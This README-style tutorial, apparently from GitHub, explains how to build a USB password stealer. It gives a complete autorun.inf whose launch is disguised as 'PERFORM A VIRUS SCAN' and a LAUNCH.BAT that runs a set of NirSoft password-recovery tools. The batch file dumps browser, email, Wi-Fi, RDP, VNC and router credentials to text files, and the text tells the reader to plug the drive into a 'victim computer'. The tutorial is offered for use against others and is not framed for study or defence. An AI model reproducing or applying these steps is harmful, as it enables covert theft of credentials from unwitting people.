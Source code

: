 # auto-usb-stealer
In this tutorial we show how to create a USB password Stealer. It is a simple trick and it help you to retirve all the password stored in the browsers of victim computers.

All you need to create is a AUTORUN.inf and LAUNCH.bat file. before stating we need to download some tools and to be placed in your pen-drive.

You can download the following tools from nirsoft.

MessenPass
Mail PassView
Protected Storage PassView
Dialupass
BulletsPassView
Network Password Recovery
SniffPass Password Sniffer
RouterPassView
PstPassword
WebBrowserPassView
WirelessKeyView
Remote Desktop PassView
VNCPassView

Also Read USBStealer – Password Hacking Tool For Windows Machine Applications

Tutorial – USB password Stealer
1. Open a notepad and add the following

[AUTORUN]

OPEN=LAUNCH.BAT

ACTION= PERFORM A VIRUS SCAN
2. Save the text file as autorun.inf

3. Open a new text file and paste the following

start mspass.exe /stext mspass.txt
start mailpv.exe /stext mailpv.txt<br>start pspv.exe /stext pspv.txt
start Dialupass.exe /stext Dialupass.txt
start BulletsPassView.exe /stext BulletsPassView.txt
start netpass.exe /stext netpass.txt
start sniffpass.exe /stext sniffpass.txt
start RouterPassView.exe /stext RouterPassView.txt
start PstPassword.exe /stext PstPassword.txt
start WebBrowserPassView.exe /stext WebBrowserPassView.txt
start WirelessKeyView.exe /stext WirelessKeyView.txt
start rdpv.exe /stext rdpv.txt
start VNCPassView.exe /stext VNCPassView.txt
4. Save the file as LAUNCH.BAT, so it will run the tools together.

Also Read Top 5 Free Hacking App For Android Phones

5. Copy the downloaded files, autorun.inf and LAUNCH.BAT to USB drive.

6. Plug the USB to victim computer and launch.bat file

It will do the rest of things and fetches the username and passwords.
